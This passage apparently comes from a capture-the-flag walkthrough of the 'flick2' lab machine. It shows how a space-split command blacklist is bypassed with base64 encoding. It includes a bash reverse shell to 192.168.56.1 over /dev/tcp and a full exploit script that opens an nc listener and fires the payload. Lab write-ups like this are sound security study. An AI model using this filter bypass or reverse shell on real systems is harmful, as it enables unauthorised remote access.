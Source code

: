 #### Bypassing the filter

As we've already seen, the application attempts to validate the command using a blacklisting approach:

```php
<?php
if(0 < count(array_intersect(array_map('strtolower', explode(' ', $command)), $bad_commands))) {...}
```

The creator of the app, says that this blacklisting method is **SUPER FAIL**, and that should be the point. He gave us even a bypass PoC, below:

```bash
/do/cmd/$(echo -n "\$(echo "`echo 'uname -a' | base64`" | base64 -d)" | base64)
```

Well... I think it's actually quite overcomplex as this simpler version works fine as well:

```bash
/do/cmd/$(echo -n '/sbin/ip a' | base64)
```

It's trivial to see why it works: the command is split in tokens using a space as delimiter, then each token is checked against the blacklist. As `/sbin/ip` contains no spaces, it's a single token, and it's different from any value in the blacklist.

##### Exploit

We can then exploit flick2 using a the following reverse shell payload:

```bash
/do/cmd/$(echo -n '/bin/bash -i >& /dev/tcp/192.168.56.1/444 0>&1' | base64)
```

#### Wrapping up

The completed exploit, once finished, will look like that:

```bash
#!/bin/sh

# Varibale used, change them to fit your needs
target="flick2.local"
lport="444"
lhost="192.168.56.1"
uuid="00000-231234fds-sdffdg2-32"
proxy="-x http://127.0.0.1:8080"

printf "[*] Staring Listener on port $lport"
gnome-terminal -- nc -lvkp $lport 2>/dev/null
sleep 1
echo "DONE"

printf "[*] Loggin in..."
token=$(curl -ksi $proxy -v -H "Content-Type: application/json" -X POST -d "{\"uuid\":\"$uuid\"}" "http://$target/register/new")
echo "DONE"

printf "[*] Crafting reverse shell command"
curl -ksi $proxy -v -H "Content-Type: application/json" -H "X-UUID: $uuid" -H "X-Token: $token" -X GET "http://$target/do/cmd/$(echo -n \"/bin/bash -i >& /dev/tcp/$lhost/$lport 0>&1\" | base64)" &>/dev/null
sleep 1
echo "DONE"
```
